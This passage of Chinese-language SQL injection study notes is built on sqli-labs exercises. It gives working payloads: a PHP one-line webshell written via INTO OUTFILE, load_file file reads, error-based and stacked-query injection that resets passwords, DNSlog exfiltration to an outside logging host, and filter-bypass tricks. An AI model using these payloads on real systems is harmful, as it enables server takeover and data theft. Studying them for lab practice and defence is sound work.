	nginx默认站点目录:/usr/share/nginx/html，配置文件路径:/etc/nginx/nginx.conf
	apache默认站点目录:/var/www/html
4、通过站点其他漏洞来获取配置信息、真实物理路径信息，比如如果发现远程命令执行漏洞，针对php的站点，直接执行一个phpinfo()函数，可以看到phpinfo.php所展示的各种信息。
5、其他思路，反正就是不断地尝试
```

文件上传指令：



内置相关函数

```
@@basedir	@@basedir在MySQL中表示MySQL的安装路径,通过执行SQL命令SELECT @@basedir;，可以获取MySQL的安装路径

@@datadir  构造SQL语句：select @@datadir,作用：返回数据的存储目录
```

注意：into outfile后的路径必须使用双反斜杠\\\分隔

---


成功上传一句话木马后可用蚁剑连接

例如sqli第七关

```
?id=1')) union select 1,2,"<?php @eval($_POST['mixbp']);?>" into outfile "E:\\CTF\\phpstudy\\phpstudy_pro\\WWW\\pwd.php" --+
```



添加成功

连接之后就相当于控制这台电脑了



### 读取数据

要求：

```
secure_file_priv=' ' ---不对mysqld 的导入 导出做限制
数据库读取权限
```

常用函数：

```
load_file("文件路径")
```

示例：

```
1' union select 1,load_file("C:\\phpStudy\\PHPTutorial\\WWW\\xx.txt")#

注意：load_file函数里的文件路径分隔要用\\
用联合查询时注意列数和前面相同
```


### 增删改查注入

其实就是通过抓包后使用报错注入，这里就略过了

**增加**

1.Insert

简单举例

insert into users values('16','lcamry','lcamry');

**删除**

2.删数据:

delete from 表名;

delete from 表名 where id=1; 

删除结构：

删数据库：drop database 数据库名;

删除表：drop table 表名;

删除表中的列:alter table 表名 drop column 列名;

简单举例：

delete from users where id=16

**修改**

修改所有：updata 表名 set 列名='新的值，非数字加单引号' ; 

带条件的修改：updata 表名 set 列名='新的值，非数字加单引号' where id=6;

update users set username='tt' where id=15

爆库

```
'and updatexml(1,concat(1,(select database())),3) or'
```

update/insert注入



爆表，内容操作相似

delete注入

```
or updatexml(2,concat(0x7e,(database())),3)
```



注意：在注入后必须把特殊符号转换成url形式

### http请求头注入

其实就是抓包后在请求头中插入报错注入

php专门取请求头数据，使用的方法是$_SERVER["请求头键"]就能拿到值



```
源码例子
insert into 'security'.'uagents' ('uagent','ip_address','username') values ('$uagent','$IP',$uname);

第一种方法
'or updatexml(1,concat('~',(select database())),3) or'
注入关键
(''or updatexml(1,concat('~',(select database())),3) or'','$IP,'$uname')
另一种方法
1' or updatexml(1,concat('~',(select database())),3),2,3)#也可
```

只要服务端取出了相应的请求头数据和数据库有联系就可以注入

### DNSlog注入

load_file()函数	读取指定路径文件

例如：

```
select load_file("C:\\benben.txt");
不仅可以读取本机也可以读取网络上的文件
```

UNC路径

‌**[UNC路径](https://www.baidu.com/s?wd=UNC路径&usm=3&ie=utf-8&rsv_pq=d0bbe5b701514305&oq=UNC路径&rsv_t=0606yqX9OxjLQIUiIKkd8siq5VQfZtUoG9%2FOBbU9%2FPbY2EZS8yZgpvDFpLw&rsv_dl=re_dqa_generate&sa=re_dqa_generate)（Universal Naming Convention）是一种在[Windows网络](https://www.baidu.com/s?wd=Windows网络&usm=3&ie=utf-8&rsv_pq=d0bbe5b701514305&oq=UNC路径&rsv_t=26750xLLRlhGqSL0u8cn7DxfItDAmPP2W20SDOgOFhZZP7sLRYOaFJ4R3wo&rsv_dl=re_dqa_generate&sa=re_dqa_generate)中表示共享文件和资源的标准化方法**‌。UNC路径通常以两个反斜杠（\）开头，后面跟着服务器名称和共享资源名称。例如，一个典型的UNC路径格式为`\\ServerName\ShareName\File.txt`，其中`ServerName`是服务器名称，`ShareName`是共享资源的名称，`File.txt`是文件名称。‌

例如：

```
select load_file("//192.168.1.209/123/benben.txt");
```

servername可以是域名也可以是ip，常用的就是域名

需要用到的网站：

```
http://ceye.io
常用：http://www.dnslog.cn/
```

手动注入：

```
获得库名
and (select load_file(concat("//",(select database()),".域名/任意文件"))) --+

获得表名
and (select load_file(concat("//",(select table_name from information_schema.tables where table_schema=database() limit 0,1),".域名/任意文件"))) --+
使用limit控制显示

获得列名
and (select load_file(concat("//",(select column_name from information_schema.columns where table_name=tablename limit 0,1),".域名/任意文件"))) --+

获得数据类似
```

注意：域名前要加'.'，并且必须使用concat拼接否则无法执行

### 宽字节注入

函数addslashes()



***

addslashes()过滤作用



宽字节注入主要用来对抗addslashes()过滤

GBKB编码和宽字节注入原理：


宽字节注入前提：要求对方Mysql数据库的编码方式是GBK编码，并且发请求时声明客户端用的也是GBK编码

注入步骤（less-32）：



### 偏移量注入


适用场景：知道表名，但是不知道列名时可以使用偏移量注入；但是实现条件苛刻

注意：联合查询前面的查询语句列数要比注入的union后面的查询列数要多才能用偏移量注入

例如：

```
select * from member union select *,1,2,3 from users;
```

如果要控制回显的内容只需要控制*号的位置即可，因为查询所有数据但是可能页面只展示几列数据，且列与列需要对应

```
例如：
注意：如果*在中间或者后面写的时候格式：表名.*
select * from member union select 1,users.*,2,3 from users;
select * from member union select 1,2,users.*,3 from users;
select * from member union select 1,2,3,users.* from users;
```

控制偏移：



### 加密注入

前端提交的有些数据是加密之后，到了后台再解密，然后再进行数据库查询等相关操作的，那么既然如此我们也应该将注入语句按照相同的加密方式，加密后再进行注入

步骤：

```
1.先将前端提交数据解密
2.添加注入语句
3.将添加后的语句再加密然后发送
```

例如：

注意：如果发现前端提交数据	中有一个或两个等号，一般是base64编码，当然也可能没有等号

### 堆叠注入

堆叠查询也叫堆叠注入，在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。以sqli-labs第38关为例



执行

```
id=1';update users set password='123456' where id=1; --+ 
```

意思就是再更新id=1的用户密码为123456。如下成功执行了更新密码的语句



堆叠查询的局限性

       堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。虽然我们前面提到了堆叠查询可以执行任意的sql语句，但是这种注入方式并不是十分的完美的。在我们的web系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。如上面的实例如果我们不输出密码那我们是看不到这个结果的。因此，在读取数据时，我们建议使用union（联合）注入。同时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息
### 二次注入

什么是二次注入：

简单的说，二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 查询语句中导致的注入。

网站对我们输入的一些重要的关键字进行了转义，但是这些我们构造的语句已经写进了数据库，可以在没有被转义的地方使用

可能每一次注入都不构成漏洞，但是如果一起用就可能造成注入。

二次注入原理：

二次注入可以理解为，攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到SQL查询语句所导致的注入。防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。

图示：

**二次注入的原理，主要分为两步**

**第一步：插入恶意数据**

第一次进行数据库插入数据的时候，仅仅对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身包含恶意内容。

**第二步：引入恶意数据**

在将数据存入到了数据库中之后，开发者就认为数据是可信的。早下一次需要进行查询的时候，直接从数据库中取出了恶意数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。



**二次注入示例：**

***寻找插入数据库，并会转义的操作\***

输入参数1' -->参数经过转义函数1\‘ -->参数进入数据库还原为1’

***寻找另一处引用这个数据的操作\***

将1‘从数据库中取出-->取出后直接给变量并带入SQL-->SQL注入触发

示例：sqli-libs Less-24



利用二次注入修改密码从而得到密码

### 中转注入

大体意思就是将传参用base64编码,再与url进行拼接。在开启htt服务用sqlmap或其他工具进行测试这个文件即可.

首先构造文件:



大体意思就是将传参用base64编码,再与url进行拼接。

其中base64_decode()函数是将传入的参数进行base64编码。

file_get_contents()函数是用来将文件的内容读入到一个字符串中的首选方法。

### 伪静态注入

在日常的测试中，经常会遇到静态页面，尤其是政府类的站点（前提经过授权），此时就会非常的棘手，在下多试验后，发现以下思路或可以帮助我们跨越这个障碍。

伪静态即是网站本身是动态网页如.php、.asp、.aspx等格式动态网页有时这类动态网页还跟“?”加参数来读取数据库内不同资料。很典型的案例即是discuz论坛系统，后台就有一个设置伪静态功能，开启伪静态后，动态网页即被转换重写成静态网页类型页面，通过浏览器访问地址和真的静态页面没区别。前提服务器支持伪静态重写URL Rewrite功能

判断方法：

在浏览器里控制台（console),输入代码或粘贴js代码

alert(document.lastModified); 回车执行，会弹出一个弹窗。


重新刷新网页，再用相同的方法在控制台里输入查询代码，再查看文件的最后修改时间，如果发现**时间不同**则可以判断它是伪静态。


如果是伪静态页面，可以尝试将其变成动态页面。伪静态的话只是由动态转成了静态，从地址上你是可以看到转递参数的，比如phpweb，它的链接是这样的：news/?123.html，这个你可以理解成news.php?id=123。所以你可以news/?123*.html这样提交。或者可以进行伪静态中转。（伪静态中转注入总结：博客园地址）

入侵的大概思维方式

对搜索框进行测试（注入测试）
 对登录处进行测试（万能密码、注入）
 对站点进行目录扫描（发现其他突破口）
 从C段下手

### 过滤绕过

#### 注释符过滤



#### and 和or过滤绕过

过滤源代码



使用场景：

在报错内发现and和or被过滤

简单常用的绕过手法

```
1.使用大小写绕过
例如：?id=1' anD 1=1--+

2.复写过滤字符
例如：?id=1' anandd 1=1--+

3.用&&取代and，用||取代or	
例如：?id=1' && 1=1--+
注意：尝试未成功可以转换成url编码再试一遍
```

#### 空格过滤绕过

使用场景：

